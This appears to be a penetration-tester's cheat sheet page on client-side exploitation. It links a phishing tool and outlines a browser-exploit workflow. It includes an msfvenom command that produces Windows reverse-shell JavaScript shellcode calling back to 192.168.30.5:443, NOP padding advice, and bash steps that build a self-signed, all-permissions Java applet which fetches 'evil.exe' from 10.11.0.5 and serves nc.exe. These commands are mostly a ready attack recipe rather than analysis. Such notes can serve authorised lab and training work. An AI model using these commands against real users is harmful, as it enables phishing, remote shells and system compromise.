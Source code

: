 ```yaml
---
title: Client Side
category: Exploitation
order: 1
---
```


> **Phishing**

* [My Phishing Tool](https://github.com/BinaryExile/Scripts/tree/master/Phishing)

> **Browser Exploit**

* Passive: Use https://extremetracking.com/?free to determine user agent
* Active: Call or Phishing
* Download exploit
* service apache2 start
* Generate new shellcode that's the same size or smaller:<br> <code> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none </code>
* Pad as needed with <code> %u9090</code>

> **Signed Java App**

{% highlight bash %}
javac -source 1.7 -target 1.7 Java.java
echo “Permissions: all-permissions” > /root/manifest.txt
keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123
jar cvf Java.jar Java.class
cp Java.class SignedJava.jar /var/www/
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://10.11.0.5:80/evil.exe"></applet>' > /var/www/html/java.html
cp /usr/share/windows-binaries/nc.exe /var/www/nc.exe
{% endhighlight %}

* [java.java](https://raw.githubusercontent.com/BinaryExile/Scripts/master/exploits/client%20side/java.java)
